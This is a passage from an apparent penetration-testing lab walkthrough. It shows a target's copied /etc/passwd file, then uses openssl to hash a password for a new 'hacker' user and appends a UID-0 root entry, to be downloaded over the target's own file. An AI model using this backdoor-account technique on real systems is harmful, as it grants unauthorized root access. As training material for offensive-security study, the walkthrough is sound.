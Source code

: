 We'll create a local copy of the file on our attacking machine.

```
┌──(kali㉿kali)-[~]
└─$ cat passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

Next, we'll use `openssl` to create a salted password hash in the _passwd_ format for a new user `hacker` with the password `pass123` and append it to our local **passwd** file like so:

```
┌──(kali㉿kali)-[~]
└─$ openssl passwd -1 -salt hacker pass123
$1$hacker$zVnrpoW2JQO5YUrLmAs.o1

┌──(kali㉿kali)-[~]
└─$ echo 'hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash' >> passwd

┌──(kali㉿kali)-[~]
└─$ cat passwd                                                                       
root:x:0:0:root:/root:/bin/bash
...
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
```

With our python web server still running on port 80, we'll go ahead and download the modified file to the target, overwriting the target's own **/etc/passwd** file.
